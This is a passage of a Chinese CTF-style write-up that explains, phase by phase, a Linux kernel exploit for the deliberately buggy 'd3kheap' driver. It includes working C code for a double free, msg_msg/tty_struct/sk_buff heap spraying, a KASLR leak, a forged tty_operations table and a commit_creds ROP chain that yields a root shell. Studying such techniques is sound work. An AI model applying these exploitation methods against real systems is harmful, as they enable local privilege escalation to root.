**技术目标**：建立稳定可控的执行环境，为后续复杂的内存操作打下坚实基础。这个阶段处理了CPU核心绑定、用户状态保存和漏洞设备访问等基础问题，确保利用过程在可预测的条件下执行。

**核心实现**：

```c
void phase_1_init_environment(void) {
  log.info("PHASE 1: ENVIRONMENT INITIALIZATION & DEVICE SETUP");

  bind_core(0);                         // 绑定到CPU核心0
  save_status();                        // 保存用户空间寄存器状态

  dev_fd = open("/dev/d3kheap", O_RDONLY);
  if (dev_fd < 0) {
    log.error("Failed to open /dev/d3kheap!");
    exit(-1);
  }
  log.success("Device opened successfully, fd: %ld", dev_fd);
}
```

**实现细节**：

CPU核心绑定通过`bind_core(0)`将当前进程固定到CPU 0上执行。在多核处理器系统中，Linux内核的调度器会将进程在不同的CPU核心之间迁移，这种迁移会导致缓存状态的变化，进而影响内存分配器的行为。对于依赖精确时序和内存布局的漏洞利用来说，这种不确定性是致命的。通过CPU绑定，确保了所有内存操作都在同一个CPU核心的上下文中进行，提高了时序的一致性，减少了缓存效应带来的干扰。

用户状态保存操作通过`save_status()`函数保存关键的寄存器状态，包括代码段寄存器CS、栈指针RSP、标志寄存器RFLAGS等。这些值在内核执行过程中会被修改，但在返回用户空间时必须恢复原状。特别需要注意的是，保存的栈指针值在后续构造ROP链时会用到，任何错误都可能导致返回用户空间时发生崩溃。

设备访问是触发漏洞的前提条件。d3kheap驱动程序通过字符设备接口暴露其功能，因此需要打开`/dev/d3kheap`设备节点。成功打开设备后获得的文件描述符`dev_fd`将成为后续所有`ioctl`调用的通道。

**技术要点**：

- CPU绑定减少内存操作的随机性，提高利用成功率
- 状态保存确保安全返回用户空间，避免系统崩溃
- 设备访问是触发漏洞的前提，需要正确处理权限和错误情况

### 5-3. 阶段2：套接字对准备

**技术目标**：创建大量Unix域套接字对，为后续的`sk_buff`堆喷操作建立基础设施。`sk_buff`是Linux网络子系统的核心数据结构，通过控制`sk_buff`可以实现对内核内存的精确操控。

**核心实现**：

```c
void phase_2_prepare_sockets(void) {
  log.info("PHASE 2: SOCKET PAIR PREPARATION FOR HEAP SPRAYING");

  for (int i = 0; i < SOCKET_NUM; i++) {
    if (socketpair(AF_UNIX, SOCK_STREAM, 0, sock_fds[i]) < 0) {
      log.error("Failed to create socket pair %d!", i);
      exit(-1);
    }
  }
  log.success("Successfully created %d socket pairs", SOCKET_NUM);
}
```

**实现细节**：

创建套接字对的数量`SOCKET_NUM`是一个需要精心选择的参数。数量太少可能导致堆喷密度不足，无法可靠覆盖目标内存区域；数量太多则可能消耗过多系统资源，甚至触发内存压力机制，影响系统稳定性。套接字对的管理采用了二维数组的结构`sock_fds[SOCKET_NUM][2]`，这种结构使得每个套接字对的读写端可以通过统一的索引进行访问，简化了后续的数据读写操作。

Unix域套接字对的选择基于多种考虑的综合结果。与网络套接字相比，Unix域套接字具有几个显著优势：首先，它们完全在操作系统内核内部处理，不涉及网络协议栈，因此性能更高，开销更小；其次，Unix域套接字的数据传输不经过网络设备，减少了外部干扰；最后，Unix域套接字的内存分配模式更加可控，适合用于精确的内存布局。通过指定`AF_UNIX`地址族和`SOCK_STREAM`类型，创建的是可靠的、面向连接的字节流套接字，这种套接字的数据传输是有序且可靠的，简化了数据控制逻辑。

**技术要点**：

- Unix域套接字提供高效的进程内通信机制
- 大量套接字对为`sk_buff`堆喷提供必要的基础设施
- 正确的资源管理避免文件描述符泄漏
- 流套接字确保数据的有序传输，简化数据控制逻辑

### 5-4. 阶段3：消息队列堆喷与内存布局

**技术目标**：通过System V消息队列大量分配`msg_msg`结构，占据d3kheap驱动程序释放的内存区域，建立可控的内存布局环境。这个阶段是内存控制的开端，为后续的漏洞触发创造条件。

**核心实现**：

```c
void phase_3_spray_msg_queues(void) {
  log.info("PHASE 3: MESSAGE QUEUE SPRAYING & OVERLAPPING OBJECT SETUP");

  // 创建消息队列
  for (int i = 0; i < MSG_QUEUE_NUM; i++) {
    msqid[i] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
  }

  // 触发驱动程序内存分配与释放
  add_chunk();
  delete_chunk();

  // 堆喷msg_msg结构
  for (int i = 0; i < MSG_QUEUE_NUM; i++) {
    *(size_t *)&msg_data.mtext[0] = MSG_TYPE;
    *(size_t *)&msg_data.mtext[8] = *(size_t *)"BinRacer";
    *(size_t *)&msg_data.mtext[16] = i;
    write_msg(msqid[i], &msg_data, sizeof(msg_data), MSG_TYPE);
  }
}
```

**实现细节**：

消息队列的创建采用了批量化的策略，一次性创建`MSG_QUEUE_NUM`（4096）个消息队列。每个消息队列通过`msgget`系统调用创建，使用`IPC_PRIVATE`键确保队列的唯一性，`IPC_CREAT`标志表示如果队列不存在则创建，权限模式0666允许所有用户访问。

在消息队列创建完成后，利用代码开始与漏洞驱动程序交互。首先调用`add_chunk()`函数触发驱动程序的`OBJ_ADD`命令，这会执行`kmalloc(1024, GFP_KERNEL)`分配1024字节的内存缓冲区。驱动程序将`ref_count`从初始值1递增到2，这个递增操作反映了驱动程序的逻辑错误：在没有实际引用的情况下增加了引用计数。随后立即调用`delete_chunk()`触发`OBJ_DEL`命令，由于引用计数为2，驱动程序将其递减到1，然后调用`kfree(buf)`释放内存。这里的关键缺陷是释放后没有清空`buf`指针，形成了悬垂指针。

驱动程序内存释放后，立即开始消息堆喷操作。堆喷的过程是向每个消息队列发送一个特定格式的消息。消息的大小被精心选择为`MSG_SIZE`（0x400，1024字节），这与驱动程序分配的内存大小完全一致。这种大小匹配确保了两种对象从相同的Slab缓存（kmalloc-1k）中分配，大大增加了内存重用的概率。

```
内存布局变化示意图：
+-------------------+     +-------------------+     +-------------------+
| 驱动程序缓冲区    |     | 空闲状态          |     | msg_msg结构       |
| 1024字节          | --> | 等待分配          | --> | 占据相同内存      |
| ref_count=2       |     |                   |     | 包含控制数据      |
+-------------------+     +-------------------+     +-------------------+
    阶段3开始时               释放后状态              堆喷后状态
```

**技术要点**：

- 消息队列提供标准的`msg_msg`分配接口
- 大量堆喷（4096个）确保高概率的内存重用
- 消息中的标识信息便于后续识别目标
- 精确的时序控制确保堆喷在内存释放后立即执行

### 5-5. 阶段4：触发Use-After-Free漏洞

**技术目标**：通过再次调用`delete_chunk()`触发Double Free漏洞，将`msg_msg`结构释放，然后通过`tty_struct`堆喷重新占用该内存，建立`msg_msg`与`tty_struct`的结构重叠。这种重叠将简单的Double Free转化为更强大的Use-After-Free原语。

**核心实现**：

```c
void phase_4_trigger_uaf(void) {
  log.info("PHASE 4: TRIGGER USE-AFTER-FREE VULNERABILITY");

  log.info("Double-freeing target chunk to create UAF condition");
  delete_chunk();                       // 第二次释放创建UAF

  log.info("Spraying tty_structs to reclaim freed memory (%d tty_structs)", TTY_SPRAY_COUNT);
  for (int i = 0; i < TTY_SPRAY_COUNT; i++) {
    alloc_tty(i);
  }
  log.success("tty_structs spraying completed");
}
```

**实现细节**：

Double Free的触发机制基于驱动程序中引用计数管理的根本缺陷。在阶段3结束时，驱动程序的状态是`ref_count = 1`，`buf`指针指向已被`msg_msg`结构占用的内存区域。当再次调用`delete_chunk()`时，驱动程序检查`ref_count`不为0，将其递减到0，然后再次调用`kfree(buf)`释放内存。这是对同一内存地址的第二次释放，构成了Double Free条件。

Double Free触发后，立即开始`tty_struct`堆喷。`tty_struct`是终端设备的核心数据结构，通过打开`/dev/ptmx`设备文件可以分配这些结构。`tty_struct`的大小为696字节，与`pipe_buffer`结构（1KB）和`msg_msg`结构（1KB）都属于`kmalloc-1k`缓存。这种缓存共享特性确保了内存重用的高概率。

```c
/* offset      |    size */  type = struct tty_struct {
/* 0x0000      |  0x0004 */    int magic;
/* 0x0004      |  0x0004 */    struct kref {
/* 0x0004      |  0x0004 */        refcount_t refcount;

                                   /* total size (bytes):    4 */
                               } kref;
/* 0x0008      |  0x0008 */    struct device *dev;
/* 0x0010      |  0x0008 */    struct tty_driver *driver;
/* 0x0018      |  0x0008 */    const struct tty_operations *ops;
/* 0x0020      |  0x0004 */    int index;
/* XXX  4-byte hole      */
...
                               /* total size (bytes):  696 */
                             }
/* offset      |    size */  type = struct msg_msg {
/* 0x0000      |  0x0010 */    struct list_head {
/* 0x0000      |  0x0008 */        struct list_head *next;
/* 0x0008      |  0x0008 */        struct list_head *prev;

                                   /* total size (bytes):   16 */
                               } m_list;
/* 0x0010      |  0x0008 */    long m_type;
/* 0x0018      |  0x0008 */    size_t m_ts;
/* 0x0020      |  0x0008 */    struct msg_msgseg *next;
/* 0x0028      |  0x0008 */    void *security;

                               /* total size (bytes):   48 */
                             }
```

```
内存结构重叠示意图：
+-------------------------------+     +-------------------------------+
| msg_msg结构                   |     | tty_struct结构                |
|                               |     |                               |
| m_list.next   : 0x...         |     | magic       : 0x00010501      |
|                               |     | kref        : ...             |
| m_list.prev   : 0x...         |     | dev         : ...             |
| m_type        : 0x41          |     | driver      : 0xffff...       |
| m_ts          : 0x3e0         |     | ops         : 0xffff....      |
| ...                           |     | ...                           |
+-------------------------------+     +-------------------------------+
        重叠前视图                       重叠后实际内容

tty_struct关键字段布局：
+0x0000: magic (4字节) + kref (4字节)  = 8字节
+0x0008: dev指针 (8字节)
+0x0010: driver指针 (8字节)
+0x0018: ops指针 (8字节)  <-- 关键控制点
+0x0020: index (4字节)
```

**技术要点**：

- Double Free创建内存管理异常状态
- `tty_struct`堆喷实现内存重用
- 结构重叠为信息泄露创造条件
- 大量堆喷确保高成功率

### 5-6. 阶段5：目标识别

**技术目标**：识别包含重叠结构的目标消息队列，确定哪个`msg_msg`结构与`tty_struct`结构重叠。这个阶段是信息获取的开始，为后续的信息泄露和地址计算提供基础。

**核心实现**：

```c
void phase_5_identify_victim(void) {
  log.info("PHASE 5: IDENTIFY VICTIM OBJECT & LEAK KERNEL BASE");

  log.info("Scanning message queues to locate UAF victim");
  victim_qid = -1;
  for (int i = 0; i < MSG_QUEUE_NUM; i++) {
    int ret = peek_msg(msqid[i], &msg_data, sizeof(msg_data), 0);
    if (ret != (MSG_SIZE - sizeof(struct msg_msg))) {
      victim_qid = i;
      log.success("Victim queue ID: %d, unexpected read size: %d", victim_qid, ret);
      break;
    }
  }
  if (victim_qid == -1) {
    err_exit("Failed to locate UAF in message queues!");
  }
}
```

**实现细节**：

目标识别的过程基于一个关键的观察：当通过消息队列接口读取与`tty_struct`重叠的内存时，返回的数据特征会与正常消息不同。正常`msg_msg`结构包含消息头和用户数据，而`tty_struct`结构包含完全不同的字段。`peek_msg`函数（内部调用`msgrcv` with `MSG_COPY | IPC_NOWAIT`标志）被用来检查每个消息队列的内容。`MSG_COPY`标志确保读取操作不会修改消息内容，`IPC_NOWAIT`标志避免操作阻塞。

当读取到重叠结构时，返回的数据大小会异常，因为`tty_struct`结构的内容被当作消息数据返回。正常消息的预期大小为`MSG_SIZE - sizeof(struct msg_msg)`，而读取`tty_struct`时返回的数据大小会不同。通过检查`peek_msg`的返回值是否等于预期值，可以识别包含重叠结构的目标消息队列。

识别目标队列后，需要关闭所有`tty_struct`文件描述符，释放相关内存，为后续的`sk_buff`堆喷创造条件。`tty_struct`的释放会触发内核中的清理操作，包括减少引用计数、释放关联资源等，但核心的内存块会被返回到`kmalloc-1k`缓存中，可以被其他类型的对象重用。

**技术要点**：

- 异常读取大小识别目标队列
- 部分覆盖结构提供信息泄露可能
- 目标识别为后续操作提供准确目标
- 资源释放为内存状态转换创造条件

### 5-7. 阶段6：越界读取与邻近对象泄露

**技术目标**：在释放`tty_struct`后，通过`sk_buff`堆喷建立新的内存重叠，构造越界读取条件，泄露同一内存页中邻近消息队列的地址信息。这个阶段扩展了信息获取范围，为后续的虚假结构构造提供目标。

**核心实现**：

```c
void phase_6_oob_read_leak(void) {
  log.info("PHASE 6: OUT-OF-BOUNDS READ TO LEAK ADJACENT OBJECTS");

  log.info("Closing all tty_structs to free memory for OOB read");
  for (int i = 0; i < TTY_SPRAY_COUNT; i++) {
    close(ptmx_fds[i]);
  }

  log.info("Constructing fake msg_msg for OOB read (size: %d bytes)", OOB_MSG_SIZE);
  build_msg((struct msg_msg *)fake_msg, 0, 0, MSG_TYPE,
            OOB_MSG_SIZE - sizeof(struct msg_msg), 0, 0);

  log.info("Spraying sk_buff objects to fill memory hole");
  if (spray_sk_buff(sock_fds, fake_msg, sizeof(fake_msg)) < 0) {
    log.error("Failed to spray sk_buff!");
    exit(-1);
  }
  log.success("sk_buff spraying completed");
}
```

**实现细节**：

内存状态的转换是这个阶段的起点。在阶段5结束时，`tty_struct`文件描述符被关闭，对应的`tty_struct`结构被释放，在内存中留下一个空洞。这个空洞现在可以被其他类型的对象占用。通过`sk_buff`堆喷，这个空洞被`sk_buff`结构填充，形成`sk_buff`与`msg_msg`的新重叠。`sk_buff`是Linux网络子系统的核心数据结构，通过套接字写入操作可以分配和控制这些结构。

越界读取的关键在于修改`msg_msg`结构的`m_ts`字段。这个字段表示消息的总大小，决定了通过消息队列接口可以读取多少数据。正常消息的`m_ts`值为`MSG_SIZE - sizeof(struct msg_msg)`，即消息数据部分的大小。通过将这个值修改为更大的值（`OOB_MSG_SIZE - sizeof(struct msg_msg)`，其中`OOB_MSG_SIZE`为0x1000），可以扩展可读取的范围。扩展后的读取范围可以覆盖同一内存页中的相邻对象，实现越界访问。

```
内存页布局和越界读取范围：
内存页边界: 0xffff88800abc1000 - 0xffff88800abc2000 (4KB)

+------------------------+ 0xffff88800abc1000
| msg_msg (victim)       | <- 读取起点
| m_ts = 0x1000          |
| ...                    |
+------------------------+ 0xffff88800abc1200
| 空闲区域               |
+------------------------+ 0xffff88800abc1400
| msg_msg (邻近1)        | <- 越界读取可访问
| m_list.next = 0x...    |
| m_type = 0x41          |
+------------------------+ 0xffff88800abc1800
| msg_msg (邻近2)        | <- 越界读取可访问
| ...                    |
+------------------------+ 0xffff88800abc1c00
| 其他内核对象           |
+------------------------+ 0xffff88800abc2000
```

`sk_buff`堆喷在这个过程中扮演双重角色。首先，它填充内存空洞，建立`sk_buff`与`msg_msg`的重叠。其次，通过控制`sk_buff`的数据内容，可以间接修改重叠的`msg_msg`结构。具体来说，`sk_buff`的数据缓冲区与`msg_msg`结构的用户数据部分重叠，通过向套接字写入特定格式的数据，可以修改`msg_msg`结构的头部字段，包括`m_ts`。这种间接修改需要精确的偏移计算，确保数据写入正确的位置。

通过`peek_msg`执行越界读取，扩展的读取范围可以获取同一内存页中的邻近内存内容。在读取的数据中搜索邻近的`msg_msg`结构，通过检查特定的模式（如`MSG_TYPE`标识）来识别。发现邻近`msg_msg`结构后，可以提取关键信息，包括`m_list.next`指针、队列ID等，计算邻近消息队列的地址。

**技术要点**：

- 修改`m_ts`字段实现越界读取
- `sk_buff`堆喷控制`msg_msg`结构
- 内存页布局利用获取邻近对象信息
- 地址计算为后续利用提供目标

### 5-8. 阶段7：内核基址泄露

**技术目标**：通过越界读取泄露内核符号地址，计算内核基址，绕过KASLR保护。这个阶段是信息获取的关键，为后续的代码执行提供必要的地址信息。

**核心实现**：

```c
void phase_7_leak_kernel(void) {
  log.info("PHASE 7: LEAK KERNEL BASE ADDRESS");

  fake_msg_msgseg_addr = (nearby_msg_queue_addr & 0xfffffffff0000000) + 0x9d000 - 0x20;
  build_msg((struct msg_msg *)fake_msg,
            nearby_msg_queue_addr + 0xc0,
            nearby_msg_queue_addr + 0xc0,
            MSG_TYPE,
            OOB_MSG_SIZE - sizeof(struct msg_msgseg) + MSG_SIZE - sizeof(struct msg_msg),
            fake_msg_msgseg_addr, 0);

  log.info("Performing extended OOB read to leak kernel symbols");
  peek_msg(msqid[victim_qid], &oob_msg_data,
           OOB_MSG_SIZE - sizeof(struct msg_msgseg) + MSG_SIZE - sizeof(struct msg_msg) + 0x8, 0);
  leak_data = (size_t *)&oob_msg_data.mtext[OOB_MSG_SIZE - sizeof(struct msg_msg)];
  kernel_offset = leak_data[3] - SECONDARY_STARTUP_64;
  kernel_base += kernel_offset;
  log.success("Leaked secondary_startup_64: 0x%lx", leak_data[3]);
  log.success("Kernel base address: 0x%lx", kernel_base);
  log.success("Kernel offset: 0x%lx", kernel_offset);
}
```

**实现细节**：

内核基址泄露是绕过KASLR的关键步骤。KASLR通过随机化内核代码和数据的加载地址来增加漏洞利用的难度，没有内核地址信息，后续的代码执行几乎不可能实现。通过越界读取邻近的消息队列，可以泄露内核符号的地址，进而计算内核基址。

首先释放之前的`sk_buff`堆喷，重新构建包含`msg_msgseg`指针的扩展消息。`msg_msgseg`是消息段结构，用于管理超过一个页面大小的消息。通过构造包含`msg_msgseg`指针的消息，可以控制更复杂的内存布局，为泄露内核符号创造条件。

在构造的伪造消息中，设置`m_list.next`和`m_list.prev`指针为邻近消息队列地址加上固定偏移0xc0，满足链表完整性要求。设置`m_ts`字段为扩展的大小，允许读取更多数据。设置`next`指针指向一个伪造的`msg_msgseg`地址，这个地址基于邻近消息队列地址计算得出。

通过`peek_msg`执行扩展的越界读取，读取的数据包含邻近消息队列的内容。在读取的数据中搜索内核符号`secondary_startup_64`的地址。`secondary_startup_64`是内核启动早期的一个符号，通常位于内核镜像的开头附近，是计算内核基址的理想选择。通过泄露这个符号的地址，结合已知的编译时偏移`SECONDARY_STARTUP_64`，可以精确计算KASLR偏移。

```
KASLR计算示意图：
泄露的secondary_startup_64地址: 0xffffffff81001040
已知的SECONDARY_STARTUP_64偏移: 0xffffffff81000040
计算内核偏移: kernel_offset = 0xffffffff81001040 - 0xffffffff81000040 = 0x1000
内核基址: kernel_base = DEFAULT_KERNEL_BASE + 0x1000 = 0xffffffff81000000 + 0x1000
```

计算得到的KASLR偏移可以用于计算所有内核符号的实际运行时地址。将KASLR偏移加到已知的编译时地址上，就得到运行时的实际地址。这对于后续构造ROP链和控制流劫持至关重要。

成功获取内核地址信息后，利用过程获得了关键的"地图"，知道了内核代码和数据的布局。这使得后续的代码执行成为可能，因为现在可以计算gadget地址、函数地址等。没有这个信息，ROP链构造是盲目的，成功率极低。

**技术要点**：

- 通过越界读取泄露内核符号地址
- 计算KASLR偏移和内核基址
- 为后续代码执行提供必要的地址信息
- 绕过KASLR保护机制

### 5-9. 阶段8：伪造tty_struct操作函数表

**技术目标**：在邻近消息队列中构造伪造的`tty_operations`结构，在`ioctl`函数指针位置放置栈迁移gadget，为控制流劫持做准备。利用内核链表操作副作用泄露虚假结构的地址，验证内存控制的有效性。

**核心实现**：

```c
void phase_8_build_fake_ops(void) {
  log.info("PHASE 8: FAKE TTY_STRUCT OPERATIONS CONSTRUCTION");

  log.info("Preparing fake tty_struct->ops in nearby message queue");
  *(size_t *)&msg_data.mtext[0] = MSG_TYPE;
  // tty_operations->ioctl = kernel_offset + PUSH_RBX_POP_RSP_POP_RBP_RET
  *(size_t *)&msg_data.mtext[0x60 - sizeof(struct msg_msg)] = kernel_offset + PUSH_RBX_POP_RSP_POP_RBP_RET;

  if (write_msg(msqid[nearby_qid], &msg_data, sizeof(msg_data), MSG_TYPE) < 0) {
    log.error("Failed to write fake ops to queue %d!", nearby_qid);
    exit(-1);
  }
  log.success("Fake ops written to queue %d", nearby_qid);
}
```

**实现细节**：

虚假结构的构造基于对`tty_operations`结构布局的深入理解。`tty_operations`是一个包含多个函数指针的结构体，对应终端设备的各种操作：`open`、`close`、`write`、`ioctl`等。其中`ioctl`函数在调用`ioctl`系统调用处理终端设备时被调用，这是触发控制流劫持的理想点。

在`tty_operations`结构体中，`ioctl`函数指针位于偏移0x60处。通过将这个指针修改为栈迁移gadget地址`PUSH_RBX_POP_RSP_POP_RBP_RET`，可以在调用`ioctl`时劫持控制流。这个gadget的选择基于其功能：它将RBX(tty_struct地址)寄存器的值压栈，然后从栈中弹出新的RSP和RBP值，最后返回，实现栈指针的迁移。

```
tty_operations结构布局：
+0x00: lookup
+0x08: install
+0x10: remove
+0x18: open
+0x20: close
+0x28: shutdown
+0x30: cleanup
+0x38: write
+0x40: put_char
+0x48: flush_chars
+0x50: write_room
+0x58: chars_in_buffer
+0x60: ioctl  <-- 修改这个指针
+0x68: compat_ioctl
...
```

在邻近消息队列中写入第二个消息，消息内容被构造为伪造的`tty_operations`结构。在偏移`0x60 - sizeof(struct msg_msg)`处写入栈迁移gadget地址。当向邻近消息队列写入第二个消息时，内核会自动更新消息队列的链表结构。第一个消息的`msg_msg->m_list.next`指针会被修改为指向第二个消息。这个操作是内核正常功能的一部分，但可以被恶意利用。由于第一个消息可以通过越界读取访问，其`next`指针的值可以被读取，从而泄露第二个消息的地址，也就是伪造`tty_operations`结构的地址。

通过再次执行越界读取，从目标消息队列获取邻近队列的第一个消息，从中提取`m_list.next`指针的值。这个值就是伪造`tty_operations`结构的地址，存储为`nearby_msg_msg_addr`。验证这个地址的合理性（例如，是否在合理的堆地址范围内，是否与预期值一致）可以确认虚假结构构造成功。

**技术要点**：

- 伪造`tty_operations`结构控制执行流
- 栈迁移gadget实现栈指针控制
- 链表操作副作用泄露地址信息
- 地址验证确保控制可靠性

### 5-10. 阶段9：绕过释放检查

**技术目标**：构造特殊的`msg_msg`结构，绕过内核释放时的链表完整性检查，确保能够安全释放目标消息。通过`sk_buff`重新控制内存状态，建立新的重叠条件，为最终的payload部署做好准备。

**核心实现**：

```c
void phase_9_bypass_free_checks(void) {
  log.info("PHASE 9: BYPASS FREE CHECKS WITH FORGED MSG_MSG");

  log.info("Constructing forged msg_msg to bypass free() validation");
  build_msg((struct msg_msg *)fake_msg, nearby_msg_queue_addr + 0xc0,
            nearby_msg_queue_addr + 0xc0, MSG_TYPE,
            MSG_SIZE - sizeof(struct msg_msg), 0, 0);

  log.info("Re-spraying sk_buff with forged msg_msg");
  if (spray_sk_buff(sock_fds, fake_msg, sizeof(fake_msg)) < 0) {
    log.error("Failed to re-spray sk_buff!");
    exit(-1);
  }
  log.success("Forged msg_msg sprayed successfully");

  log.info("Triggering free of forged msg_msg");
  read_msg(msqid[victim_qid], &msg_data, sizeof(msg_data), 0);
}
```

**实现细节**：

链表完整性检查是现代Linux内核的重要安全机制之一。当内核释放`msg_msg`结构时，它会检查该结构在消息队列链表中的前后指针是否一致。具体来说，会检查`m_list.next->prev`和`m_list.prev->next`是否都指向当前消息队列地址。这个检查旨在检测内存损坏和某些类型的利用。如果指针不一致，内核可能触发警告或直接崩溃。为了后续利用，必须确保释放的`msg_msg`结构通过这个检查，否则利用链会中断。

伪造`msg_msg`结构的构造是为了满足链表检查的要求。通过`build_msg`函数构建一个新的`msg_msg`结构，将其`m_list.next`和`m_list.prev`指针都设置为`nearby_msg_queue_addr + 0xc0`。这个地址是之前泄露的邻近消息队列地址加上固定偏移0xc0。选择这个值的原因是它可能对应消息队列中某个有效的位置，使得链表检查通过。精确的偏移值需要根据内核版本和结构布局确定，0xc0是一个常见值，但实际可能不同。

重新堆喷`sk_buff`是为了将伪造的`msg_msg`结构写入目标内存。由于`sk_buff`与`msg_msg`存在内存重叠，通过向套接字写入包含伪造`msg_msg`头部的数据，可以修改目标内存中的`msg_msg`结构。这个操作需要精确的偏移控制，确保伪造的头部覆盖正确的位置。成功覆盖后，目标内存中的`msg_msg`结构就具有了合法的链表指针，可以通过内核的检查。

触发释放操作是通过`read_msg`系统调用实现的。这个调用会从消息队列中移除并释放消息，触发`msg_msg`结构的释放流程。由于链表指针已经被正确设置，释放操作应该通过完整性检查，正常完成。成功的释放操作在内存中创建一个空洞，这个空洞可以被重新分配。更重要的是，释放操作不会导致内核崩溃，保持了系统的稳定性，这是后续操作的前提。

```
内存状态转换流程图：
+---------------------+     +---------------------+     +---------------------+
| sk_buff/msg_msg     |     | 内存空洞            |     | tty_struct/sk_buff  |
| 重叠状态            | --> | 释放msg_msg后       | --> | 重新堆喷后新重叠    |
| (阶段6结束时)       |     |                     |     | (阶段9结束时)       |
+---------------------+     +---------------------+     +---------------------+
         |                          |                          |
         | 1. 伪造msg_msg结构       | 2. 通过sk_buff写入       | 3. 释放msg_msg
         |    设置合法指针          |    修改目标内存          |    通过完整性检查
         |                          |                          |
         v                          v                          v
+---------------------+     +---------------------+     +---------------------+
| 准备释放            | --> | 释放完成            | --> | tty_struct堆喷      |
| 链表指针已设置      |     | 创建空洞            |     | 建立新重叠          |
+---------------------+     +---------------------+     +---------------------+
```

成功释放目标消息后，重新堆喷`tty_struct`结构，建立`tty_struct`与`sk_buff`的新重叠。这种新的重叠状态为最终的控制流劫持创造了条件。在新的状态下，`tty_struct`结构在上层，`sk_buff`结构在下层，通过控制`sk_buff`的数据可以间接修改`tty_struct`结构。

**技术要点**：

- 链表指针伪造绕过完整性检查
- 安全释放避免内核崩溃
- 内存状态转换建立新的控制条件
- 资源清理优化内存使用

### 5-11. 阶段10：ROP链构建与布局

**技术目标**：构建完整的ROP链，通过`sk_buff`控制`tty_struct`结构，设置控制流劫持所需的所有组件。精心选择gadget实现权限提升和用户空间返回，准备最终的payload部署。

**核心实现**：

```c
void phase_10_build_rop_chain(void) {
  log.info("PHASE 10: ROP CHAIN CONSTRUCTION & CONTROL FLOW HIJACK");

  log.info("Building fake tty_struct structure");
  fake_tty_struct = (size_t *)fake_msg;
  fake_tty_struct[0] = 0x0000000100005401;  // magic (4字节) + kref.refcount (4字节)
  fake_tty_struct[1] = kernel_offset + ADD_RSP_0X50_RET;  // dev指针
  fake_tty_struct[2] = nearby_msg_msg_addr; // tty_struct->driver
  fake_tty_struct[3] = nearby_msg_msg_addr; // tty_struct->ops

  log.info("Constructing ROP chain for privilege escalation");
  rop_chain = (uint64_t *)&fake_msg[0x50];
  rop_idx = 0;
  rop_chain[rop_idx++] = kernel_offset + POP_RDI_RET;
  rop_chain[rop_idx++] = 0;
  rop_chain[rop_idx++] = kernel_offset + PREPARE_KERNEL_CRED;
  rop_chain[rop_idx++] = kernel_offset + POP_RCX_RET;
  rop_chain[rop_idx++] = 0;
  rop_chain[rop_idx++] = kernel_offset + MOV_RDI_RAX_REP_MOVSQ_RDI_RSI_RET;
  rop_chain[rop_idx++] = kernel_offset + COMMIT_CREDS;
  rop_chain[rop_idx++] = kernel_offset + SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + 0x22;
  rop_chain[rop_idx++] = (size_t)get_root_shell;
  rop_chain[rop_idx++] = user_cs;
  rop_chain[rop_idx++] = user_rflags;
  rop_chain[rop_idx++] = user_sp + 8;
  rop_chain[rop_idx++] = user_ss;
}
```

**实现细节**：

伪造`tty_struct`结构的构造是这个阶段的起点。在`fake_msg`缓冲区的开头构造一个伪造的`tty_struct`结构，根据实际结构布局设置关键字段。`tty_struct`的第一个8字节包含`magic`（4字节）和`kref.refcount`（4字节），设置为固定值`0x0000000100005401`。第二个8字节是`dev`指针，设置为栈迁移gadget`ADD_RSP_0X50_RET`的地址。第三个8字节是`driver`指针，设置为伪造的`tty_operations`结构地址。第四个8字节是`ops`指针，也设置为伪造的`tty_operations`结构地址。

```
控制流劫持执行路径：
1. ioctl系统调用触发tty_struct->ops->ioctl()
2. 跳转到PUSH_RBX_POP_RSP_POP_RBP_RET gadget
3. 执行: push rbx; sub eax, 0x415b0007; pop rsp; pop rbp; ret
4. 栈指针迁移到tty_struct->dev (ADD_RSP_0X50_RET地址)
5. 执行ADD_RSP_0X50_RET，栈指针增加0x50
6. 跳转到ROP链起始位置
7. 执行权限提升ROP链
8. 返回用户空间执行get_root_shell
```

ROP链的设计体现了权限提升的经典模式。链中的第一个有效gadget是`POP_RDI_RET`，它将立即数0加载到RDI寄存器，作为`prepare_kernel_cred`函数的参数。在Linux内核中，`prepare_kernel_cred(0)`调用创建具有root权限的凭证结构。接下来调用`PREPARE_KERNEL_CRED`函数，其返回值（新凭证的指针）存储在RAX寄存器中。然后通过`POP_RCX_RET`清理RCX寄存器，再通过`MOV_RDI_RAX_REP_MOVSQ_RDI_RSI_RET`将RAX中的凭证指针移动到RDI寄存器。这个gadget通常用于内存复制，但这里利用它将凭证指针从RAX移动到RDI。最后调用`COMMIT_CREDS`函数，将新凭证应用到当前进程。

用户空间返回是ROP链的最后部分。调用`SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + 0x22`返回用户空间。这个gadget执行多个操作：交换GS寄存器（从内核GS切换到用户GS）、恢复用户空间寄存器、执行`sysretq`或`iretq`返回。偏移+0x22跳过了一些不需要的操作。返回地址设置为`get_root_shell`函数的地址，这是用户空间的函数，将生成一个root shell。同时恢复阶段1保存的寄存器状态：`user_cs`、`user_rflags`、`user_sp+8`、`user_ss`。栈指针加8是为了跳过一些值，确保正确的栈对齐。

```
完整payload内存布局：
fake_msg缓冲区 (704字节)
+0x00: magic + kref (0x0000000100005401)
+0x08: ADD_RSP_0X50_RET (tty_struct.dev)
+0x10: nearby_msg_msg_addr (tty_struct.driver)
+0x18: nearby_msg_msg_addr (tty_struct.ops)
+0x20: ... (tty_struct其他字段)
+0x50: ROP链开始
  [0]: 填充
  [1]: POP_RDI_RET
  [2]: 0
  [3]: PREPARE_KERNEL_CRED
  [4]: POP_RCX_RET
  [5]: 0
  [6]: MOV_RDI_RAX_REP_MOVSQ_RDI_RSI_RET
  [7]: COMMIT_CREDS
  [8]: SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE+0x22
  [9]: get_root_shell地址
  [10]: user_cs
  [11]: user_rflags
  [12]: user_sp+8
  [13]: user_ss
```

`sk_buff`的最终堆喷是payload部署的关键步骤。通过向所有套接字写入包含完整payload的`fake_msg`缓冲区，大量`sk_buff`结构被分配，其中一些将与目标`tty_struct`重叠。由于`sk_buff`与`tty_struct`共享内存，写入`sk_buff`的数据会修改`tty_struct`结构的内容。特别是会修改`tty_struct->ops`指针，使其指向伪造的`tty_operations`结构。成功部署后，当目标终端设备被调用`ioctl`时，控制流将被劫持到精心构造的ROP链。

**技术要点**：

- 完整ROP链实现权限提升和用户空间返回
- 栈迁移控制执行流转移
- 精心选择的gadget确保执行成功
- 用户空间状态正确恢复
